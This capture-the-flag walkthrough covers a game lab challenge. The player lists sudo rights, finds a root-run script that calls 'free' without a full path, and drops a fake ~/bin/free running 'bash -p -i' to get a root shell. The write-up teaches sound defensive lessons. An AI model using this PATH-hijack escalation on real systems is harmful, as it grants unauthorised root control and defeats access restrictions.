



Neighborhood Watch Bypass

In this challenge, you'll discover how improper sudo configuration and a subtle PATH vulnerability can hand an attacker complete administrative control over critical infrastructure.
Challenge Overview
Kyle at the Dosis neighborhood data center is locked out of the fire alarm system. Someone has revoked admin privileges. Your mission is to regain administrative access and restore the fire safety systems.
Accessing the Challenge
To access this challenge, the camera has to be rotated just right. The north arrow must be pointing to the left or the upper left to be able to see and click on the challenge, the fire alarm panel. It's clickable while standing outside the fence.

Note the yellow glow on the ground by the door for later.
To get inside the fence for future challenges, it's a little tricky. There's a hole on the east side that's only visible for a second while the camera is spinning. An easy way to get through it is to click on the yellow glowing area on the ground in the image above. Your character will automatically walk to and through the hole.

The hole in the fence that's visible for a second while the camera is rotating.
Enumerate Your Sudo Privileges
Once we're in the challenge, we begin by checking what commands we're allowed to run with elevated privileges:
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ sudo -l ... User chiuser may run the following commands on fee2fe6f7de6: (root) NOPASSWD: /usr/local/bin/system_status.sh
We can execute /usr/local/bin/system_status.sh with sudo privileges without requiring a
password. This
is the entry point for exploitation.
Analyze the Target Script
Examine the script you're allowed to run:
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ cat /usr/local/bin/system_status.sh #!/bin/bash echo "=== Dosis Neighborhood Fire Alarm System Status ===" echo "Fire alarm system monitoring active..." echo "" echo "System resources (for alarm monitoring):" free -h echo -e "\nDisk usage (alarm logs and recordings):" df -h echo -e "\nActive fire department connections:" w echo -e "\nFire alarm monitoring processes:" ps aux | grep -E "(alarm|fire|monitor|safety)" | head -5 || echo "No active fire monitoring processes detected" echo "" echo "🔥 Fire Safety Status: All systems operational" echo "🚨 Emergency Response: Ready" echo "📍 Coverage Area: Dosis Neighborhood (all sectors)"
The sequence of directories in the path show our ~/bin is checked first.
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ echo $PATH /home/chiuser/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
This vulnerability relies on three factors aligning:
- Unqualified binary name: The script calls
free, not/usr/bin/free - User-writable PATH entries: Your home directory (or subdirectories) appears in your PATH before system directories
- Elevated execution context: The script runs with sudo, so your hijacked binary inherits root privileges
Create the Malicious Binary
Create an executable script named free in your home directory's bin folder. This script
will spawn an interactive root shell:
🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ cat > ~/bin/free <<'EOF' exec /bin/bash -p -i EOF 🏠 chiuser @ Dosis Neighborhood ~ 🔍 $ chmod +x ~/bin/free
Instead of free, this could have also been done with df,
w, or
ps.
The Role of the -p Flag in bash
The -p flag in bash -p -i is critical. Normally, bash automatically
drops privileges when spawned by a non-root process, even if that process is running as root via
sudo.
The -p (privileged mode) flag disables this automatic privilege dropping.
Execute the Vulnerable Script with Sudo
Now run the system status script with sudo:
🏠 chiuser @ Dosis Neighborhood ~/bin 🔍 $ sudo /usr/local/bin/system_status.sh === Dosis Neighborhood Fire Alarm System Status === Fire alarm system monitoring active... System resources (for alarm monitoring): root@699174e4879d:/home/chiuser/bin# ./runtoanswer ... 🎯 SUCCESS! Fire alarm system admin access RESTORED!
Challenge Reference Material
Challenge Descriptions
Classic Mode Description
Assist Kyle at the old data center with a fire alarm that just won't chill.
CTF Mode Description
Anyway, I could use some help here. This fire alarm keeps going nuts but there's no fire. I checked. I think someone has locked us out of the system. Can you see if you can get back in?
Official Hints
- Be careful when writing scripts that allow regular users to run them. One thing to be wary of is not using full paths to executables...these can be hijacked.
- You know, Sudo is a REALLY powerful tool. It allows you to run executables as ROOT!!! There is even a handy switch that will tell you what powers your user has.